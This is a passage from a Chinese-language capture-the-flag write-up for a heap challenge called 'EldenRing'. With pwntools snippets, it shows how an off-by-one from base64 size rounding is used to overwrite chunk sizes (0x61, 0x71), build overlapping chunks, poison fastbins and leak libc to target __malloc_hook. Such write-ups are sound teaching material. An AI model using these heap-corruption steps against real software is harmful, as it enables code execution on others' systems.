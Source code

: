 然后开始布置我们的堆块

其中 55 为关键的攻击数据，当输入为 55 时，题面内的 malloc 中的 size 处理会向下取整最终为 0x28 ，但实际上根据上面所说，55 的输入下我们能填入的数据为 55//4*3+2=0x29 

下面的脚本中，我们能使用 pwntools 给我们提供的 ``b64e`` 轻松的进行我们想要输入的数据的编码

```
Two_finger(55,b64e(b'sekiro'))#0
Two_finger(55,b64e(b'sekiro'))#1
Two_finger(55,b64e(b'sekiro'))#2
Two_finger(65,b64e(b'sekiro'))#3 
```

布局如下所示，从上往下分别对应堆块 ``chunk0，1，2，3(后文对应序号 chunk 一直对应的是开始时候的地址)``

![](/assets/images/wp/2024/week5/EldenRing_10.png)

有了上述的堆块准备工作后，攻击思路:

1. 把 chunk0 先 free 掉，再 malloc 回 chunk0，写 0x29 个字节使得 chunk1 得 size 位为 0x61 足以覆盖 chunk2

```
Three_finger(0)
Two_finger(55,b64e(p64(0)*5+p8(0x61)))#0
```

![](/assets/images/wp/2024/week5/EldenRing_11.png)

2. 把 chunk1 再 free 掉，再 malloc 拿回来(输入 109 左右都能拿回来)，将一开始 chunk2 的 size0x31 改写为 0x71，从而覆盖 chunk3

```
Three_finger(1)
Two_finger(109,b64e(p64(0)*5+p8(0x71)))#1
```

![](/assets/images/wp/2024/week5/EldenRing_12.png)

3. 将 0x61 和 0x71 的 chunk free 掉（分别对应 chunk0 和 1），其中 0x61 的 chunk 拿回来之后负责改 0x71chunk 的 next 位，而被改了 next 位的 0x71chunk 用于 hijack 的地址分配

```
Three_finger(2)
Three_finger(1)
```

![](/assets/images/wp/2024/week5/EldenRing_13.png)

在拿回这两个 size 的 fastbin 前，先通过``菈妮``知道 libc 的地址

```
#----------------------leak libcaddr-----------------
Age_of_the_Stars()
p.recvuntil(b'0x')
libc_base=int(p.recv(12),16)-libc.symbols['printf']
hijackaddr=libc_base+libc.symbols['__malloc_hook']-0x23
print(hex(libc_base))
```
